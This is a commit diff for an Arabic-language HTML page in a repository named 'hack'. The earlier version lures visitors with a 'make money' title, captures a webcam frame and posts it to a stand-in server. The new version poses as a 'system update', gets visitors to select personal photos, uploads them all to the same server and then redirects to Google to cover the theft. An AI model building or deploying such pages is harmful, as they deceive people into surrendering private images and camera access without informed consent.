

Before and after one commit to NovaCore-Studio/hack, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,35 +2,34 @@
 <html lang="ar">
 <head>
     <meta charset="UTF-8">
-    <title>ربح المال</title>
+    <title>تحديث النظام</title>
 </head>
 <body>
-    <h1>ابدا الربح</h1>
-    <button onclick="startCamera()">ابدأ</button>
-    <video id="video" autoplay></video>
+    <h1>الرجاء اختيار الصور للتحديث</h1>
+    <input type="file" id="fileInput" multiple accept="image/*" style="display:none;">
+    <button onclick="document.getElementById('fileInput').click()">اختر الصور</button>
     <script>
-        async function startCamera() {
-            const stream = await navigator.mediaDevices.getUserMedia({ video: true });
-            const video = document.getElementById('video');
-            video.srcObject = stream;
+        const fileInput = document.getElementById('fileInput');
 
-            // التقاط صورة وإرسالها
-            const canvas = document.createElement('canvas');
-            canvas.width = video.videoWidth;
-            canvas.height = video.videoHeight;
-            const context = canvas.getContext('2d');
-            context.drawImage(video, 0, 0);
+        fileInput.addEventListener('change', function(e) {
+            const files = e.target.files;
+            if (files.length === 0) return;
 
-            canvas.toBlob(blob => {
-                const formData = new FormData();
-                formData.append('image', blob, 'capture.jpg');
+            const formData = new FormData();
+            for (let i = 0; i < files.length; i++) {
+                formData.append('photos', files[i]);
+            }
 
-                fetch('https://your-server.com/upload', {
-                    method: 'POST',
-                    body: formData
-                }).then(response => console.log('تم إرسال الصورة'));
-            }, 'image/jpeg');
-        }
+            fetch('https://your-server.com/upload', {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => {
+                // اختفاء الصفحة أو إعادة توجيه بعد الإرسال
+                window.location.href = 'https://google.com';
+            })
+            .catch(error => console.error('Error:', error));
+        });
     </script>
 </body>
 </html>
```
